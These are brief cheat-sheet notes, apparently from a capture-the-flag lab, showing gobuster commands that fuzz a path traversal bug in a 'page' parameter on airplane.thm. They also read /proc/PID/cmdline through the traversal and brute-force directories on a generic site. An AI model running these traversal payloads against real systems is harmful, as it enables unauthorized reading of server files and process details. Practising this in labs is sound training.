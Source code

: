 *** Gobuster ile lfi (Path-traversal) ***
``` bash
gobuster -w /usr/share/wordlists/lfı/lfi.txt -u http://airplane.thm:8000/?page=../../../../../ dir -o lfi.txt --exclude-length 14
```

*** Gobuster with dizin içinde arama (Path-traversal) ***
``` bash
gobuster -w num.txt -u http://airplane.thm:8000/?page=../../../../../proc/{GOBUSTER}/cmdline dir -o proc.txt --exclude-length 14
```
```bash
gobuster dir -u https://mysite.com/path/to/folder -c -t 50 -w common-files.txt -x .php,.html
```



